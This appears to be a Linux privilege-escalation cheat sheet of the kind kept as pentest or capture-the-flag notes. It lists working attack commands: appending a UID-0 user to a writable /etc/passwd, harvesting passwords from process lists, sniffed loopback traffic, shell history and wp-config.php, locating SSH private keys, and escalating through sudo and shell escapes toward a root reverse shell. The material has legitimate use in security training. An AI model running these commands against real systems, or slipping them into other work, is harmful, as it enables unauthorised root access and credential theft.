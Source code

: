 **Writable /etc/passwd**
1. Check if `/etc/passwd` is writable with `ls -l /etc/passwd`
2. Generate a new password hash with `openssl passwd newpass`
3. Substitute the root password hash with the new hash with `nano /etc/passwd`
   - or add a new root user to `/etc/passwd` with `echo 'root2:<password hash>:0:0:root:/root:/bin/bash' >> /etc/passwd`
     - test the new user with `su root2` and `id`


### Exposed Confidential Information

- `env` inspect environment variables
  - `/etc/environment`
- `cat .bashr` ispect .bashrc
- `watch -n 1 "ps -aux | grep pass"` harvest active processes for credentials
- `sudo tcpdump -i lo -A | grep "pass"` perform password sniffing
- `history`
- `cat ~/.profile`

**Password disclosure**
- `watch -n 1 "ps -aux | grep pass"`
- `sudo tcpdump -i lo -A | grep "pass"`
- search for passwords
  - `grep -rnw . -ie password --color=always 2>/dev/null`
  - `grep -rnw . -ie tom --color=always 2>/dev/null`
  - `grep -rnw . -ie DB_PASSWORD --color=always 2>/dev/null`
- check `wp-config.php` in:
  - `/var/www/html`
  - `/srv/http`

### SSH
- `find / -maxdepth 5 -name .ssh -exec grep -rnw {} -e 'PRIVATE' \; 2> /dev/null` find SSH keys

### Sudo

**Classic method**
- Try to run `sudo su`
- If `su` doesn't work, try with the followings
  - `sudo -s`
  - `sudo -i`
  - `sudo /bin/bash`
  - `sudo passwd`

**Shell Escape Sequences**
- `sudo -l` list the programs which sudo allows your user to run
- See [GTFOBins](https://gtfobins.github.io) and search for the program names

If you find something like the following, see if there are any services that can be restarted to have reverse shell as root
```
(root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```
- sudo /sbin/reboot
